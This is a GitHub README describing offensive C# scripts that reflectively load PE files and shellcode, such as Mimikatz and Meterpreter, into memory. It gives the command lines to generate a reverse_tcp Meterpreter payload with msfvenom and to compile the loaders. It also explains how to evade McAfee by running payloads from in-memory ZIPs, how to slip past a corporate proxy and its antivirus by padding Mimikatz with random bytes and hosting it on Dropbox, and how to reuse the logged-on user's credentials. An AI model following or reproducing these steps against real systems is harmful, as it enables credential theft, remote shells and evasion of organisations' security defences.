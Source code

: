 C# Scripts
============

Author: Arno0x0x - [@Arno0x0x](https://twitter.com/Arno0x0x)

This repository aims at publishing some of my C# scripts. Some are just forked/inspired from other scripts I found there and there, and I adapted to fit my needs or just to learn and improve.

Dynamically load and parse a .Net assembly
----------------

**parseAssembly.cs**

This console application will dynamically load a .Net assembly (exe or dll), either from a local file or downloaded from a URL, optionnaly base64 encoded. Once loaded, it will enumerate it's types, method and properties.
Examples:
`parseAssembly.exe myAssembly.dll`
or
`parseAssembly.exe http://some.site.com/myAssembly base64`


Playing with PE and Shellcode reflective injection
----------------
This is a collection of scripts adapted from Casey Smith's ([@subTee](https://twitter.com/subTee)) work on reflectively inject PE or shellcode into the calling process, from various sources.

**peloader.cs**

This scripts loads a base64 encoded **x64** PE file (*for example: Mimikatz or a Meterpreter*) into the process's memory and reflectively executes it. The PE is passed as a base64 string variable at the beginning of the file (yes, it's hardcoded).

You can generate this base64 encoded string from any file using the following \*nix command line:
```
root@kali:~# base64 -w 0 mimikatz.exe > mimikatz.b64
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:peloader.exe peloader.cs
```

**shellcodelauncher.cs**

This script executes a shellcode into the process's memory and reflectively executes it. The shellcode is passed as an array of bytes in a variable. You can get the proper code for this array automatically generated for you with Metasloit's msfvenom utility. For example, to generate a reverse_tcp meterpreter shellcode:

```
root@kali:~# msfvenom -a x86_64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f csharp
```

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:shellcodeLauncher.exe shellcodeLauncher.cs
```

**runfromzipinmemory.cs**

This script is heavily and shamefully based, inspired, derived from Casey Smith (@subTee) work on Netkatz.

I found out that the local antivirus (*McAfee*) on my corporate workstation is configured to *NOT* analyze the content of a ZIP file, probably on the assumption that whenever this content is to be read or executed it would normally first be extracted somewhere on the disk, and any bad stuff in it would get caught by the AV at that time.

What this script does is loading everything in memory and work only from there, also using reflection to execute a PE from the calling process memory.

So not only the AV doesn't bark at all, but from a forensic perspective, the only "visibly running process" looks perfectly innocent.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /reference:System.IO.Compression.dll /out:runfromzipinmemory.exe runfromzipinmemory.cs
```

You can then execute:
```
unfromzipinmemory.exe <zip_file> <exe_from_zip_file_to_be_executed>
```

**netPEloader.cs**

This script is heavily based and inspired from Casey Smith (@subTee) work on Netkatz.

Netkatz is a fantastic PoC of loading the latest mimikatz release from GitHub and execute if straight in memory. However, I faced three problems in my environment:

1. The connection to the internet has to be made through a corporate proxy requiring NTLM authentication (*Windows SSO is OK*)
2. The github page of Mimikatz is blocked by the corporate proxy due to website categorization
3. The mimikatz_trunked.zip file is being detected by the proxy AV (*yes, with SSL inspection turned on at the proxy level*)

So I modified the original netkatz script to address these 3 issues:

1. Added system proxy and default credentials support (*currently logged on Windows user*)
2. Hosting the PE on a non blocked web site, innocent looking like www.dropbox.com
3. As per making the PE undetectable by AV, we could go throuth various obfuscation methods like encrypting, specific encoding, but I like the simple technique of adding 65536 random garbage bytes at the beginning of the real x64 Mimikatz PE:
	- dd if=/dev/urandom of=garbage bs=65536 count=1
	- cat garbage mimikatz.exe > mimiHidden
	- Upload mimiHidden to dropbox and share it	

The URL from where to download the hidden PE is hardcoded in the script.

Compiling the script on a Windows machine requires the .Net framework (*installed by default on Windows 7 onwards*):
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:netPEloader.exe netPEloader.cs
```